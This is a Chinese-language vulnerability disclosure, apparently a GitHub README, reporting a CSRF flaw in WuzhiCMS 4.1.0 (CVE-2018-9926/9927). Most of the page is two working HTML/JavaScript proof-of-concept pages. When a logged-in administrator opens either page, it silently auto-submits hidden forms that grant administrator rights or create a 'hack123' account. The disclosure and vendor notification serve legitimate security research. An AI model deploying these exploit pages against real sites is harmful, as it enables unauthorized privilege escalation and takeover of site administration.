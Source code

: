 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|五指CMS 4.1.0存在CSRF漏洞可增加管理员账户|2018-04-10|套哥（taoge@5ecurity.cn）|[https://github.com/wuzhicms/wuzhicms](https://github.com/wuzhicms/wuzhicms) | [https://github.com/wuzhicms/wuzhicms](https://github.com/wuzhicms/wuzhicms) |4.1.0| [CVE-2018-9926](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9926)/[CVE-2018-9927](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9927)|  

#### 漏洞概述  

> 五指CMS 4.1.0版本存在一个CSRF漏洞，当管理员登陆后访问下面CSRF测试页面可将普通用户提成为管理员权限。五指CMS是一个在github上开源的CMS系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/wuzhicms/wuzhicms/issues/128)告知作者。   


### POC实现代码如下：  

> CSRF测试页面代码一如下：  
 
``` html
<html><body>
    <script type="text/javascript">
    function post(url,fields)
    {
    var p = document.createElement("form");
    p.action = url;
    p.innerHTML = fields;
    p.target = "_self";
    p.method = "post";
    document.body.appendChild(p);
    p.submit();
    }
    function csrf_hack()
    {
    var fields;
    
    fields += "<input type='hidden' name='form[role][]' value='1' />";
    fields += "<input type='hidden' name='form[username]' value='hack123' />"; 
    fields += "<input type='hidden' name='form[password]' value='' />"; 
    fields += "<input type='hidden' name='form[truename]' value='taoge@5ecurity' />"; 
    
    var url = "http://127.0.0.1/www/index.php?m=core&f=power&v=add&&_su=wuzhicms&_menuid=61&_submenuid=62&submit=提交";
    post(url,fields);
    }
    window.onload = function() { csrf_hack();}
    </script>
    </body></html>
```

> CSRF测试页面代码二如下：  

``` html
<html><body>
<script type="text/javascript">
function post(url,fields)
{
var p = document.createElement("form");
p.action = url;
p.innerHTML = fields;
p.target = "_self";
p.method = "post";
document.body.appendChild(p);
p.submit();
}
function csrf_hack()
{
var fields;

fields += "<input type='hidden' name='info[username]' value='hack123' />";
fields += "<input type='hidden' name='info[password]' value='hacktest' />"; 
fields += "<input type='hidden' name='info[pwdconfirm]' value='hacktest' />"; 
fields += "<input type='hidden' name='info[email]' value='taoge@5ecurity.cn' />"; 
fields += "<input type='hidden' name='info[mobile]' value='' />"; 
fields += "<input type='hidden' name='modelids[]' value='10' />"; 
fields += "<input type='hidden' name='info[groupid]' value='3' />"; 
fields += "<input type='hidden' name='pids[]' value='0' />"; 
fields += "<input type='hidden' name='pids[]' value='0' />"; 
fields += "<input type='hidden' name='pids[]' value='0' />";
fields += "<input type='hidden' name='pids[]' value='0' />"; 
fields += "<input type='hidden' name='avatar' value='' />"; 
fields += "<input type='hidden' name='islock' value='0' />";
fields += "<input type='hidden' name='sys_name' value='0' />";
fields += "<input type='hidden' name='info[birthday]' value='' />"; 
fields += "<input type='hidden' name='info[truename]' value='' />"; 
fields += "<input type='hidden' name='info[sex]' value='0' />";
fields += "<input type='hidden' name='info[marriage]' value='0' />";

var url = "http://127.0.0.1/www/index.php?m=member&f=index&v=add&_su=wuzhicms&_menuid=30&_submenuid=74&submit=提交";
post(url,fields);
}
window.onload = function() { csrf_hack();}
</script>
</body></html>
```